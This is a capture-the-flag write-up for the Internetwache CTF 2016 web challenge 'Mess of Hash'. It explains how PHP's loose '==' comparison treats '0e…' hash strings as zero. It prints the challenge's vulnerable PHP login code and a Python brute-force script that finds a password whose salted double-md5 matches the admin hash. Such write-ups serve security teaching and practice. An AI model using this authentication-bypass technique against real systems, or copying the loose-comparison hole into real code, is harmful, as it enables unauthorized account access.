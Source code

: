 # Internetwache CTF 2016 : Mess of Hash

**Category:** Web
**Points:** 50
**Solves:** 143
**Description:**

> Description: Students have developed a new admin login technique. I doubt that it's secure, but the hash isn't crackable. I don't know where the problem is...
> 
> 
> Attachment: [web50.zip](./web50.zip)
> 
> 
> Service: <https://mess-of-hash.ctf.internetwache.org/>


## Write-up

Writeup by [unicornsasfuel](https://github.com/unicornsasfuel)

PHP is weird. No doubt about it. There are a lot of quirks.

One of PHP's quirks is that strings will be interpreted as numbers in scientific notation if they are in the right format, specifically <number>e<number>. If such a number starts with `0e`, it is effectively `0`. If two strings match these parameters and are compared through the double-equals operator (which, importantly, allows for type conversion from string to number), they will always match as they are both effectively `0`.

It is possible for a hashing algorithm to produce such a hash, though the chances are roughly one in 200 million. Through CTF challenge magic, the admin hash `0e408306536730731920197920342119` matches these conditions.

~~~PHP
<?php

$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}
~~~

There are published values whose md5 sums match these conditions, but as we can see above, the hashing algorithm is custom, so we must perform our own search. Below is a Python solver script which provides us the password we need:

~~~Python
import md5
import string
import sys

def do_0e_check(inhash):
   if inhash[:2] == '0e':
      print 'hash %s begins with 0e' % inhash
      if all([char in string.digits for char in inhash[2:]]):
         return True
   return False

i = int(sys.argv[1])
answer = 0

print "Starting cracking process..."

while True:
   hashcandidate = md5.new(md5.new(str(i)).hexdigest()+'SALT').hexdigest()
   if do_0e_check(hashcandidate):
      break
   else:
      i += 1
      if i % 100000 == 0:
         sys.stdout.write("\rCurrent i value: %s" % i)
         sys.stdout.flush()

print "Answer found: md5(md5(%s)+'SALT') matches" % (i)
~~~

Logging in with username `pr0_adm1n` and the found password results in a successful login and the disclosure of the flag.

## Other write-ups and resources

* <https://forum.xeksec.com/f138/t88657/>
* <https://www.xil.se/post/internetwache-2016-web-50-simonvik/>
